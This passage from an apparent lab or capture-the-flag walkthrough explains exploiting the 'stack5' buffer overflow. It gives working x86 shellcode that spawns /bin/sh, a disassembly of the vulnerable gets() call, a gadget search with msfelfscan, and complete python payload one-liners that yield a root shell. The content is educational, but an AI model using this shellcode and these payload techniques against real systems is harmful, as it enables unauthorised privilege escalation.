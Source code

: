     ```c
    /* The asm instructions correspond t:
        * close(0) 
        * open("/dev/tty", O_RDWR | ...)
        * execve("/bin/sh", ["/bin/sh"], NULL)
    */
        
    char sc[] = 
    "\x31\xc0\x31\xdb\xb0\x06\xcd\x80"
    "\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80"
    "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";
    ```

3. Now we have our input made by the shellcode and the padding (meaning a bunch of \x00 bytes) we need to reach $eip. But we do not know yet what we have to write in $eip: we will have to pass the starting address of the buffer, where the program will find the start of the shellcode.
4. By disassembling stack5 with `objdump -d` we can see that the address of the buffer passed as argument to the gets method is loaded in $eax and is located at $esp+0x10. This means that the address we are looking for corresponds to $esp+0x10, and from gdb we can see that $esp is located at 0xbffffb70.

    ```c
    080483c4 main:
    80483c4:   55                      push   %ebp
    80483c5:   89 e5                   mov    %esp,%ebp
    80483c7:   83 e4 f0                and    $0xfffffff0,%esp
    80483ca:   83 ec 50                sub    $0x50,%esp
    80483cd:   8d 44 24 10             lea    0x10(%esp),%eax
    80483d1:   89 04 24                mov    %eax,(%esp)
    80483d4:   e8 0f ff ff ff          call   80482e8 gets@plt
    80483d9:   c9                      leave  
    80483da:   c3                      ret  
    ```
    
5. The problem is that the actual address of $esp might change on the stack depending on how the program is loaded. So we need another way to access the buffer. What we can see from the disassembly is that the address is loaded in $eax. This means that if we find an instruction like jmp $eax at a static address we could use that address for our new $eip, and the jump will take care of getting us at the right spot.
6. To find that gadget we can use a tool like `msfelfscan`: by passing the object file and the type of instruction (in our case -j) we are looking for it will return all the addresses where we can find one. Therefore we run `msfelfscan -f stack5 -j eax` and see that we can use the instruction `call eax` at 0x080483bf for our goal.
7. Our current payload is made by the shellcode, a padding of 76-len(shellcode) 0-bytes and the address of our call eax instruction.

    ```bash
    python -c "print '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '0' * 21 + '\xBF\x83\x04\x08'" | ./stack5
    ```
8. If we pipe all of that into stack5, we expect to receive a shell back, but instead we get a segmentation fault. The reason is that in our shellcode we have a bunch of push instructions that when executed will put things on the stack basically overwriting instructions already there.
9. To prevent that, we have to ensure that $esp is pointing to a proper location to not interfere with our code when stuff is pushed into the stack. What we can do is moving the register back so that it will leave enough space for all the pushes in our code. The instruction can be like `add $0x10, $esp`, which translates to opcode \x83\xc4\x10.
10. We prepend this to our code, obtaining
    ```bash
    python -c "print '\x83\xc4\x10\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '0' * 18 + '\xBF\x83\x04\x08'" | ./stack5
    ```
11. Running this code clearly returns a shell that is root (you can check it with the command whoami).